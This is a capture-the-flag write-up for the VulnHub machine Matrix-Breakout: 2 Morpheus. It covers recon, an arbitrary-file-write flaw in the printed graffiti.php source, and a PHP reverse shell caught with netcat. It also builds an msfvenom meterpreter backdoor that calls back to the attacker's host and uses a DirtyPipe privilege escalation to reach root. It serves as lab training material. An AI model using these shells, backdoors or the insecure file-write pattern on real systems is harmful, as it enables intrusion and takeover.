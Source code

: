 # Matrix-Breakout: 2 Morpheus Writeup

![banner image](screenshots/banner.png)

### Description:This is the second in the Matrix-Breakout series, subtitled Morpheus:1. It’s themed as a throwback to the first Matrix movie. You play Trinity, trying to investigate a computer on the Nebuchadnezzar that Cypher has locked everyone else out from, which holds the key to a mystery.

### [download machine](https://vulnhub.com/entry/matrix-breakout-2-morpheus,757/)

### Phase 1: Reconnaissance
Getting the IP Address of the Target machine I used Netdiscover tool and got the ip address → 192.168.161.131

![discover image](screenshots/discover.png)

### Phase 2: Network Scanning

```bash
nmap -sV 192.168.161.131
```

![nmap scan](screenshots/nmap.png)

Here port 80 http is open, lets open it in browser and see what it shows

![webpage](screenshots/webpage.png)

Following is the webpage that is present on target machine, and nothing interesting in source and nothing in cookies and localstorge

Now I will use Gobuster to get the endpoints/dirs for this webapp that are hidden

```bash
gobuster dir -u http://192.168.161.131/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .php,.txt,.html
```

![gobuster enum](screenshots/gobuster.png)

So I got the following results:
/robots.txt
/graffiti.txt
/graffiti.php

Lets visit robots.txt,
Got this LOL -> There's no white rabbit here. Keep searching!

-> Let try graffiti.txt
It is just a text file nothing special

Lets try graffiti.php here we got a web page with a input box and also we can do xss attact from this

![homepage](screenshots/homepage.png)

Now let's analyse this request in Burpsuite to get the path for the file here's the data variables that are taking data

![burpsuite 1](screenshots/burp1.png)

Now when I try changing the file extension to see whether new file is getting saved or not, it is saved and message is written into the file and file gets stored on the server, now let’s try to get the source code for the graffiti.php file to know the backend working

![code](screenshots/code.png)

Here I got the source code of the graffiti.php


```php

$file="graffiti.txt";
if($_SERVER['REQUEST_METHOD'] == 'POST') {
if (isset($_POST['file'])) {
$file=$_POST['file'];
}
if (isset($_POST['message'])) {
$handle = fopen($file, 'a+') or die('Cannot open file: ' . $file);
fwrite($handle, $_POST['message']);
fwrite($handle, "\n");
fclose($file);
}
}

// Display file
$handle = fopen($file,"r");
while (!feof($handle)) {
echo fgets($handle);
echo "
\n";
}
fclose($handle);
?>

```

Here it is just getting the message from the input box and writing its value in the graffiti.txt file.

Now I will try to upload a php reverse shell File

![burpsuite reverse shell](screenshots/burp2.png)

The file got uploaded successfully, now lets try to get the reverse shell, here I am using netcat to get the connection from the target machine to my kali machine


```bash
nc -nlvp 4545
```

![access granted](screenshots/acc1.png)

Now I have reverse shell and I got the access of the user www-data

### Phase 3: Exploitation
![flag 1](screenshots/flag1.png)

We got our first flag in FLAG.txt, and also hints for the user cypher lets see we get its password

I don’t have access to /etc/shadow nor /etc/passwd, lets use metasploit to get the exploits that can be used to exploit this machine

For this I am generating a backdoor using msfvenom and uploading it /tmp of target machine


```bash
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=192.168.161.128 LPORT=6565 -f elf -o escalate.elf
```

![upload escalte file](screenshots/esc.png)

I used wget to get the file from my kali to the target machine and then got the meterpreter session in metasploit

![muti handler](screenshots/multi.png)

Now I have make that session to run in background, and now I will use search suggester to do a exploit scan

![explot scan](screenshots/exploitScan.png)

So the target machine is vulneable to exploit/linux/local/cve_2022_0847_dirtypipe

Now I search for it and got the following https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits

Now lets try using this to exploit the target machine

I got the three files and now I have given execute permission to all of them and now lets execute them

![compile file exploit](screenshots/compile.png)

![root image](screenshots/root.png)

## Finally got the root shell access 🎉🎉

![final flag](screenshots/flag2.png)

### 🚩Here I got the final Flag…. 🚩
